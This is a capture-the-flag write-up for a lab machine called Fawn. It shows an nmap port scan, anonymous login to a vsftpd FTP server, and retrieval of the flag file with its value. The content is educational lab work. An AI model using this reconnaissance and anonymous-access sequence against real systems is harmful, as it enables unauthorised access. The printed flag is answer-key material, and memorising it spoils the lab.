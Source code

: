 ```yaml
---
Title: Fawn
Difficulty: very easy
Tags: Linux, FTP, Account Misconfiguration
Tools: nmap
Author: sl0th0x87
Date: 2022/01/10
---
```

# Fawn

## General informations
* IP Attack Machine: 10.10.14.39
* IP Target Machine: 10.129.139.214
* Operating System: Linux

## NMAP scan
Make a portscan over all ports with service detecion
Enable NMAP scripts and disable ping scan
```bash
sudo nmap -sV -sC -Pn -p- 10.129.139.214
```

Output:
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-10 16:32 CET
Nmap scan report for 10.129.139.214
Host is up (0.043s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.39
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.42 seconds
```

### Open ports
* 21/tcp open  ftp     vsftpd 3.0.3

## FTP
The NMAP script shows us, that anonymous login is allowed\
So connect to the server with FTP

Set a username 'anonymous' and no password
```bash
ftp 10.129.139.214
Connected to 10.129.139.214.
220 (vsFTPd 3.0.3)
Name (10.129.139.214:sl0th0x87): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Show all files in the directory
```bash
ftp> ls
229 Entering Extended Passive Mode (|||24622|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
```

Download the flag.txt file to your local computer
```bash
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||45685|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |**************************************************************************************************************************************************************************************************|    32      215.51 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:00 (0.18 KiB/s)
ftp> quit
221 Goodbye.
```

Get the root flag
```bash
└─$ cat flag.txt                       
035db21c881520061c53e0536e44f815
```

Congratulations! You got the root flag!